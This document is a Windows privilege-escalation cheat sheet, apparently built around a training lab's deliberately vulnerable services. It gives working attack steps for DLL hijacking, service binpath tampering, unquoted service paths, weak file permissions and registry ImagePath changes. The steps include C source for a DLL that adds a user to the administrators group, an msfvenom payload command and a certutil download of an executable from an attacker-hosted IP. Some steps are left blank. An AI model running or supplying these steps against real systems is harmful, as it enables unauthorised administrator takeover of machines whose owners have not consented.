




# Windows-PrivEsc

## DLL Hijacking
1. Make sure C:\Temp in the Victim Machine is a writable location for standard user.
2. DLL Injection can be done via modifying any dll file in windows which can be run by the user.
3. We can modify the dll or make our own dll .
4. The dll file can be made by compiling the following code in the attacker machine and then placing it under C:\Temp in  Victim’s machine.

CODE:
```
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
   if (dwReason == DLL_PROCESS_ATTACH) {
       system("cmd.exe /k net localgroup administrators $USER$ /add");
       ExitProcess(0);
   }
   return TRUE;
}
```

5. Replace $USER$ with standard user name account and the compile it with mingw ,
6. For 64 bit - ```x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll```
For 32 bit-  ```i686-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll```

The above command will generate the dll file , which we will place in C:\Temp
7. Execute the dll file inside the victim via inbuilt windows command i.e RUNDLL32.EXE
Syntax for running the dll file :

In command prompt :
    cd /
    cd /Temp
    RUNDLL32.EXE hijackme.dll

Boom.!  your user is now added to the local administrator group and you are having the full admin privileges .

## Binpath

1. ```accesschk64.exe -wuvc daclsvc```

Notice that the output suggests that the user has the “SERVICE_CHANGE_CONFIG” permission.

2. ```sc config daclsvc binpath= "net localgroup administrators user /add"```


3. ```sc start daclsvc```

4. 

## Unquoted path

1. ```sc qc unquotedsvc```


2. Create a executable file with name "common" so when
 ```msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe```


3. Transfer the file to windows machine 
```certutil.exe -urlcache -f http://192.168.43.97:8000/common.exe common.exe```
and move it into "C:\Program Files\Unquoted Path Service"

4. ```sc start unquotedsvc```


5. 

## Fileperm

1. ```sc qc filepermsvc```


2. ```accesschk64.exe "C:\Program Files\File Permissions Service\filepermservice.exe"```


3. Now the transfer the windows_service.c file from C:\Users\user\Desktop\Tools\Source folder to your attacker machine and edit it like following.


4. Now compile it into an executable and transfer back to windows machine.
```x86_64-w64-mingw32-gcc windows_service.c -o filepermservice.exe```

5. ```copy /y c:\Temp\filepermservice.exe "c:\Program Files\File Permissions Service\filepermservice.exe"```

6. ```sc start filepermsvc```

## Services (Registry)
1. Getting a Powershell from initial shell.


2. 
```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```


3. Now the transfer the windows_service.c file from C:\Users\user\Desktop\Tools\Source folder to your attacker machine and edit it like following.


4. Now compile it into an executable and transfer back to windows machine.
```
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

5. Copy it to C:\Temp directory

6. Now run the following command 
```reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f```


7. ```sc start regsvc```

8. Check 


